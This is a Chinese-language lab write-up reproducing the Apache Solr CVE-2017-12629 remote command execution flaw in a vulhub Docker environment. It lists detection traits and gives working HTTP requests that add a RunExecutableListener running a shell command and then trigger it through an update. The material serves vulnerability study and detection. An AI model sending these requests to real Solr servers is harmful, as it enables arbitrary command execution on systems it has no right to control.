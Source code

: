 **环境搭建**  

    使用 docker 搭建的 vulhub 靶场  

**漏洞分析**  

    RunExecutableListener 类中使用了 Runtime.getRuntime().exec() 方法，可用于在某些特定事件中执行任意命令

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YDe1uB3GvaOic2FicsgeZ8694DuGwCRkB4aTSTBe5AUto0td20CUOtGeg/640?wx_fmt=png)

使用了 config API 传入 add-listener 命令即可调用 RunExecutableListener

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YPiby4yRCScqIQylVQex7JoXl2zOzAICFAOYNAF7CEucQVhqib0eZJ1dw/640?wx_fmt=png)

**漏洞攻击主要特征**

1) 端口：8983， http  
2) 路径是：/config HTTP/1.1  
3) 载荷中必要特征是：  
Content：update-listener 或 create-listener  
Content："event": "postCommit"(备选)  
Content: "class":"solr.RunExecutableListener"

**漏洞复现**

 1. 启动漏洞环境后访问 ip:8983

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YLIib8R9ibxx6F9bRDwk04EJS0pBRKSjRqHUBibr7d0SR37TOiblVbBaOMw/640?wx_fmt=png)

 2. 首先创建一个 listener，其中设置 exe 的值为我们想执行的命令，args 的值是命令参数  

```
POST /solr/demo/config HTTP/1.1
Host: ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 169

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","    args":["-c", "touch /tmp/cve-2017-12629"]}}
```

    这里的 “exe”，“dir”，“args” 内容也都可以通过 http 的方式传入，所以在没有访问控制的情况下任何人都可以通过该 config API 达到任意命令执行的操作

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Y4IlH08txIMzWibqEvTxkPUib3vWBIKc4ehOdafy63wZ55cbqYbWzhpjg/640?wx_fmt=png)

    3. 然后进行 update 操作，触发刚刚添加的 listener

```
POST /solr/demo/update HTTP/1.1
Host: ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 17

[{"id":"test"}]
```
